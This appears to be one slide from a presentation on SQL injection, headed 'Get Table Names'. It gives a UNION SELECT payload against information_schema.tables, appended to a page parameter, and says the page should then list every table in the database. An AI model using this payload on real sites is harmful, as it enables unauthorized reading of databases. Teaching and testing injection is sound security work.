

# Get Table Names

www.site.com/page=1 UNION SELECT 1,table_name,3,4 FROM information_schema.tables–
the page should show all the tables in the database,